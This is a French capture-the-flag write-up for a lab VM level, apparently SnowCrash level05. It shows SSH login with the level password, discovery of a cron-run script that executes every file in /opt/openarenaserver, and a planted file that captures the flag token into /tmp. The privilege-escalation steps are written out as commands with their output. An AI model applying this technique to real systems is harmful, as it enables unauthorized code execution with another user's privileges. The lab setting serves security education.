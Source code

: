 # Level05

Se connecter en tant que `level05`:

    $ ssh 192.168.1.124 -p 4242 -l level05
    level05@192.168.1.124's password: ne2searoevaevoem4ov4ar8ap

---

Premiere étape de recherche

	$ ls -la
	(nothing)

	$ find / -user level05 2> /dev/null
	(nothing)

	$ find / -user flag05 2> /dev/null
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver

	$ ls -l /usr/sbin/openarenaserver; ls -l /rofs/usr/sbin/openarenaserver
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
	-rwxr-x--- 1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver

Nous n'avons pas les droits de base mais une ACL sur le premier fichier étend ses droits unix. Nous pouvons donc le lire

```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script execute tous les fichiers qui sont dans /opt/openarenaserver/ puis les supprime

	$ echo "getflag" > /opt/openarenaserver/script.sh

	$ /usr/sbin/openarenaserver
	bash: /usr/sbin/openarenaserver: Permission denied

On ne peut pas executer le script nous meme, il y a surement un cron qui le fait regulierement

	$ ls /opt/openarenaserver/
	(nothing)

Confirmation, le script n'y est plus

On va le modifier pour qu'il écrive le résultat dans un fichier

	$ echo "getflag > /tmp/flagg" > /opt/openarenaserver/script.sh

On attends

	$ cat /tmp/flagg
	Check flag.Here is your token : viuaaale9huek52boumoomioc
